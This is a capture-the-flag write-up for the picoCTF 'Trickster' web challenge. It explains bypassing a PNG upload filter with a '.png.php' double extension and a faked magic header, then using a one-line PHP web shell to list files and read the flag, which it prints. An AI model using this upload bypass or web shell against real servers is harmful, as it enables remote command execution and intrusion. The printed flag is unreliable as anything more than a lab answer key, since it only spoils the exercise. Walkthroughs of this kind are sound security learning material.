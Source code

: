 
# Trickster

*Medium*

> ### Description
>
> I found a web app that can help process images: PNG images only!
> Try it [here](http://atlas.picoctf.net:59351/)!

We are greeted with a simple web application that wants to process PNG images.
When we upload a valid PNG image file it says: *"File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully"*. 

But when we upload a non PNG file, we get: *"Error: File name does not contain '.png'."*. So it seems like it only checks for a .png in the filename.

So now we try to upload a file with name **file.png.php**. It has .png in the name, we get a different error message: *"Error: The file is not a valid PNG image: 666f6f62"*. 666f6f62 is *"foob"* in ascii, the start of our file (The file content was foobar). So it seems like the application checks the magic file header. The magic file header of PNG is **PNG**. When we add this to our file, it lets us upload it.

This allows me to upload any file if I just add a ".png" in the name and add the "PNG" magic header. 

>At this point I was not quite sure what to do, and without thinking about it, I searched for a writeup. The first line just said something about /robots.txt, and I was yeahhhh, I should do that... (stupid of me)... Always do some reconnaisanse.

In the robots.txt we find this: \
*User-agent: \*\
Disallow: /instructions.txt\
Disallow: /uploads/*

Now we find that we can access our uploaded files through /uploads/file.png.php!

We upload our simple phpWebShell.png.php:
```
PNG<?php echo system($_GET['command']); ?>
```
Now navigate to /uploads/phpWebShell.png.php?command=ls, here we see all our uploaded files. If we use "ls .." we see the basic files such as index.php, but also a weird file called "MFRDAZLDMUYDG.txt". Let's cat this file with "cat+../MFRDAZLDMUYDG.txt". 

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}
</details>